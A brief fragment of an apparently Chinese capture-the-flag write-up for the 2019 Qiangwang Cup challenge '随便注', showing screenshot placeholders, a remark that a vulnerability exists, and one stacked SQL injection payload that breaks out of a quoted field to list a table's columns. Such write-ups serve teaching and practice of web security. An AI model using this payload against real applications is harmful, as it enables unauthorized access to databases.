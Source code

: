 # [强网杯 2019]随便注1(SQL预编译注入)

![upload successful](./images/pasted-15.png)
存在漏洞

![upload successful](./images/pasted-16.png)

<code>1';show columns from `1919810931114514`# </code>
